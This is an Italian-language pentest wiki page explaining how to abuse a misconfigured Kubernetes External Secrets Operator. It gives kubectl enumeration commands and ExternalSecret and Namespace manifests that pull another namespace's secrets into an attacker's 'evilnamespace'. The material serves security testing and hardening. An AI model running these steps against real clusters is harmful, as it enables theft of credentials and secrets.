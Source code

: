 # External Secret Operator

**L'autore originale di questa pagina è** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Questa pagina fornisce alcuni suggerimenti su come puoi riuscire a rubare segreti da un ESO mal configurato o da un'applicazione che utilizza ESO per sincronizzare i suoi segreti.

## Disclaimer

La tecnica mostrata di seguito può funzionare solo quando si verificano determinate circostanze. Ad esempio, dipende dai requisiti necessari per consentire a un segreto di essere sincronizzato in un namespace che possiedi / compromesso. Devi scoprirlo da solo.

## Prerequisites

1. Un accesso a un cluster kubernetes / openshift con privilegi di amministratore su un namespace
2. Accesso in lettura su almeno ExternalSecret a livello di cluster
3. Scoprire se ci sono etichette / annotazioni o appartenenza a gruppi richieste che consentono a ESO di sincronizzare il tuo segreto. Se sei fortunato, puoi rubare liberamente qualsiasi segreto definito.

### Gathering information about existing ClusterSecretStore

Assumendo che tu abbia un utente con diritti sufficienti per leggere questa risorsa; inizia elencando prima i _**ClusterSecretStores**_ esistenti.
```sh
kubectl get ClusterSecretStore
```
### Enumerazione di ExternalSecret

Supponiamo di aver trovato un ClusterSecretStore chiamato _**mystore**_. Continua enumerando il suo externalsecret associato.
```sh
kubectl get externalsecret -A | grep mystore
```
_Questa risorsa è limitata allo spazio dei nomi, quindi a meno che tu non sappia già in quale spazio dei nomi cercare, aggiungi l'opzione -A per cercare in tutti gli spazi dei nomi._

Dovresti ottenere un elenco di externalsecret definiti. Supponiamo che tu abbia trovato un oggetto externalsecret chiamato _**mysecret**_ definito e utilizzato dallo spazio dei nomi _**mynamespace**_. Raccogli un po' più di informazioni su che tipo di segreto contiene.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assemblare i pezzi

Da qui puoi ottenere il nome di uno o più nomi di segreti (come definito nella risorsa Secret). Otterrai un output simile a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Finora abbiamo:

- Nome di un ClusterSecretStore
- Nome di un ExternalSecret
- Nome del segreto

Ora che abbiamo tutto il necessario, puoi creare un ExternalSecret (e eventualmente patchare/creare un nuovo Namespace per soddisfare i requisiti necessari per sincronizzare il tuo nuovo segreto):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Dopo alcuni minuti, se le condizioni di sincronizzazione sono state soddisfatte, dovresti essere in grado di visualizzare il segreto leakato all'interno del tuo namespace.
```sh
kubectl get secret leaked_secret -o yaml
```
## Riferimenti

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
